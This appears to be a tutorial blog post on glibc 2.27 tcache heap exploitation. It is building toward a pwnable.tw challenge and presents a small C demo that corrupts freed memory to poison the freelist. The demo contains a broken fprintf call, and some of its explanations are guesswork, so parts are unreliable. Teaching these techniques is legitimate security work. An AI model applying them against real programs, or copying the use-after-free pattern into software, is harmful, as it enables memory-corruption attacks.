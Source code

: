 ```c

 #if USE_TCACHE
       /* If all the small chunks we found ended up cached, return one now.  */
       if (return_cached)
         {
           return tcache_get (tc_idx);
         }
 #endif
```

This code will determine whether or not to fetch and return chunks from the tcache. We do not have the
context in which mp_ is, but we can form an educated guess based on the fact that it is using the
tcache_get() function. This will probably be the checks put in place to make sure the chunks are valid
before attempting to fetch from the tcache freelist.

## Exploitation 2.27

In the exploitation section of this post; I will be detailing a few techniques found within the how2heap
repository. Eventually we will be completing pwnable.tw's tcache_tear, which incorporates a double
free within tcache to gain arbitrary write, and a tcache house of spirit to leak the address of the
main arena.

Lets get started :)

### Tcache Dup
This technique involves a simple pointer duplication that may lead to arbitrary writes. We can leverage
the tcache in this case to duplicate our pointer. In order to perform this attack, we must possess the
ability to edit a free chunk, whether that be a heap overflow or a use after free.

These bug classes may cause extreme security implications, as the dynamic memory ecosystem must rely
completely and blindly on the metadata that is provided. They may attempt to validate the metadata, but
that has its shortcomings as well.

Anyways, lets get onto the demonstration, this is the script that we will be using:

```c
#include <stdio.h>
#include <stdlib.h>
int main(int argc,char**argv) {
    fprintf(stderr,"This technique may lead to arbitrary writes\nafter this we just need a where :(\n");
    void*a=(void*)malloc(56),*b=(void*)malloc(56),*c;
    free(a);
    *(unsigned long*)a = (unsigned long)b;
    fprintf(stderr,"a = %p @ %p\n",*(unsigned long*)a,a);
    fprintf(stderr,"b = %p @ %p\n",*(unsigned long*)b,b);
    fprintf(stderr,"Now lets malloc 1 more chunk, and see what pointer we get returned\n");
    c=(void*)malloc(56);
    fprintf(stderr,"c = %p @ %p\n",*(unsigned long*)c,c);
    fprintf("And just like that, we have duplicated a pointer!");
}
```
